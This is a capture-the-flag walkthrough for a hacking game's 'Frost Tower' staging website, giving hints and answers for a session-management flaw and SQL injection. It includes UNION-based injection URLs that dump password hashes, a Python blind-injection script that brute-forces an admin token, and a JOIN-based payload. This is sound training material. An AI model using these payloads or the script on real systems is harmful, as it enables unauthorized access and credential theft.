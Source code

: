 ## Summary
At the top right of the main courtyard, after thawing the Frost Tower door and fixing the Frostivator elevator, go to the top floor, Jack's Office. Enter the left room, called Studio, and talk with Ingreta about the Frost website and download the sourcecode. You will practice sourcecode review and web application hacking.

## Steps
1. Review the sourcecode for flaws. If you aren't able to find anything, you can go complete the Python coding challenges (where you move the little elf to collect candies) and after level 8, the elf there will give you a few hints about where the Frost Tower Website is vulnerable.
<details>
  <summary>The Elf's Hint</summary>
  He tells you to review a couple of lib docs - the npm express-session package (https://www.npmjs.com/package/express-session) and the mysqljs/mysql package (https://github.com/mysqljs/mysql).
</details>

2. Exploit the first vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the express-session package. Take a look at how it uses this lib to find developer flaws in session management.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js file assigns the unauthenticated user a session when a certain unauthenticated call is made with certain logic. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/postcontact" method assigns the user a session when certain logic is followed. Try to trigger it and verify a valid session by browsing to the session-protected /dashboard page.
</details>

<details>
  <summary>Answer</summary>
  Submit the /contact form using some email address. Submit the form again, using the same email address. You now have a session and can navigate to /dashboard to confirm.
</details>

3. Exploit the second vulnerability on the https://staging.jackfrosttower.com/ website
<details>
  <summary>Hint 1</summary>
  The server.js file imports the mysql package. Take a look at the official docs to identify potential mistake points where developers may accidentally insecurely implement classes/calls.
</details>

<details>
  <summary>Hint 2</summary>
  The server.js "/detail/:id" method is a good place to look.
</details>

<details>
  <summary>Hint 3</summary>
  The server.js "/detail/:id" method calls the insecure raw() method on the mysql connection to execute a raw query. Try to manipulate the user input to exploit this vulnerability.
</details>

<details>
  <summary>Answer</summary>
  While "/detail/1,1 or 1=1" will successfully return all uniquecontact details, a UNION-based SQL injection will give you all database user password hashes too! You can build this exploit by reviewing the database tables sourcecode.
  https://staging.jackfrosttower.com/detail/1,2,4%20union%20select%20*%20from%20users--
</details>

4. Exploit the second vulnerability...again...
<details>
  <summary>What's this about?...</summary>
  After getting SQL injection and the password hashes, can we login as someone? (I didn't crack any hashes...)
</details>

<details>
  <summary>Hint 1</summary>
  There are some super-protected pages that need special perms on top of a session. Can you figure out how to get in?
</details>

<details>
  <summary>Hint 2</summary>
  Take a look at how the "token" value is used and think about how it can be obtained and used.
</details>

<details>
  <summary>Answer</summary>
  I bruteforced the Super Admin token (mxCamxRUVgBWr3l7uFR8uUbuQcAa496e) and reset their password and logged in as them. Code below. (CHANGE THE SESSION ID IN THE CODE!)

```
import requests, string
ALL = list(string.ascii_letters)
ALL.extend(string.digits)
print(ALL)
FINAL = ''

def test():
    global FINAL
    for injection in ALL:
        url = 'https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20users%20where%20id=1%20and%20token%20like%20%22HERE%25%22--'
        url = url.replace('HERE',FINAL + injection)

        r = requests.get(
            url,
            cookies={"connect.sid": "YOUR SESSION ID"}
        )
        # print(r.status_code)
        # print(r.text)
        if r.status_code!=200:
            FINAL = FINAL + injection
            print("FINAL: ", FINAL)
            if len(FINAL)==32:
                exit('DONE')

for i in range(0,32):
    test()

print('DONE')
```

</details>

<details>
  <summary>Alternative (better) Answer</summary>
  Use comma-less JOINs for arbitrary data SELECTs.
  https://staging.jackfrosttower.com/detail/1,1%20union%20select%20*%20from%20((select%201)A%20join%20(select%20token%20from%20users%20where%20id%20=1)B%20join%20(select%20%22%22)C%20join%20(select%20%22%22)D%20join%20(select%20%22%22)E%20join%20(select%20%22%22)F%20join%20(select%20%22%22)G)--
</details>

